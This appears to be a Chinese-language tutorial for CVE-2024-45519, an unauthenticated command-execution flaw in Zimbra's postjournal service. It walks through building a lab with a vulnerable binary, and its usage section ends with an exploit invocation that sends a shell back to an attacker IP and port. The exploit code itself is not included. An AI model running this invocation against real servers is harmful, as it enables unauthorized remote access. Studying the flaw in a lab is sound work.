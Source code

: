#  【PoC】CVE-2024-45519 - Zimbra Postjournal 漏洞利用教程   
 独眼情报   2024-10-06 09:35  
  
#    
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KgxDGkACWnQTqACGARdtXISOmchnQlxvdJic7QtXjOSEra4F7Hq3TJachaSliciaZInjVsR3h1eRh0PELDe1doAibQ/640?wx_fmt=png&from=appmsg "")  
## 描述 ⚠️  
  
CVE-2024-45519 是 Zimbra Collaboration (ZCS) 中的一个漏洞，允许未认证的用户通过 postjournal 服务执行命令。本指南将引导您设置实验室环境以重现此问题并执行漏洞利用。  
## 受影响的版本 🐛  
- **Joule**: 版本 8.8.15  
  
- **Kepler**: 版本 9.0.0  
  
- **Daffodil**: 版本 10.0.x 在 10.0.9 之前的版本  
  
- **Daffodil**: 版本 10.1.0  
  
## 实验室设置 🖥️  
1. **准备测试环境**确保您的实验室机器上运行的是 Ubuntu 20.04.6 LTS (Focal Fossa)。示例测试环境：Ubuntu 20.04.6 LTS。  
  
1. **下载 Zimbra**运行以下命令下载并解压 Zimbra Collaboration 包：  
```
sudo su
wget https://files.zimbra.com/downloads/8.8.15_GA/zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
tar -xvzf zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220.tgz
cd zcs-NETWORK-8.8.15_GA_4177.UBUNTU20_64.20211112014220

```  
  
  
1. **配置主机名**将主机名设置为 zimbra.labo：  
```
hostnamectl set-hostname zimbra.labo

```  
  
  
1. **安装 Zimbra**请按照此处的安装指南操作 👉 Zimbra 安装指南。当提示使用 Zimbra 的包存储库时，请选择 **No**。  
  
1. **替换易受攻击的 postjournal 二进制文件**结束掉正在运行的 postjournal 进程并用易受攻击的二进制文件替换它：  
```
sudo pkill postjournal
dpkg-deb -x packages/zimbra-core_8.8.15.GA.4177.UBUNTU20.64_amd64.deb /tmp/zimbra-core
sudo cp /tmp/zimbra-core/opt/zimbra/libexec/postjournal /opt/zimbra/libexec/postjournal

```  
  
  
1. **启用并重启 Zimbra 服务**以 zimbra 用户身份登录并启用 postjournal 服务：  
```
sudo su - zimbra
zmlocalconfig -e postjournal_enabled=true
zmcontrol restart

```  
  
  
## 漏洞利用使用方法 🚀  
  
一旦实验室设置并运行完毕，您可以使用漏洞利用来利用该漏洞。  
### 步骤：  
1. **准备漏洞利用脚本**确保漏洞利用脚本（假设您已经准备好了）针对正确的 IP 地址和端口。  
  
1. **运行漏洞利用脚本**执行漏洞利用脚本来针对易受攻击的 Zimbra 实例。例如，使用您的脚本：  
```
python exploit.py <target> -lh <attacker-ip> -lp <attacker-port> -p <smtp-port>

```  
  
  
1. **享受您的 shell**一旦漏洞利用成功连接，您将在 Zimbra 服务器上获得命令执行权限！🎉  
  
## 参考资料 🔗  
- Zimbra CVE-2024-45519 - Cyberveille eSante  
  
- Zimbra 远程代码执行博客 - ProjectDiscovery  
  
## 免责声明 ⚠️  
  
此漏洞利用和指南仅用于教育目的。请负责任地使用此信息，仅在您有明确权限测试的系统上使用。未经授权的系统利用是非法且不道德的。作者，贡献者和本公众号不对因使用此信息而造成的任何误用或损害负责。  
  
> https://github.com/Chocapikk/CVE-2024-45519  
  
  
  
  
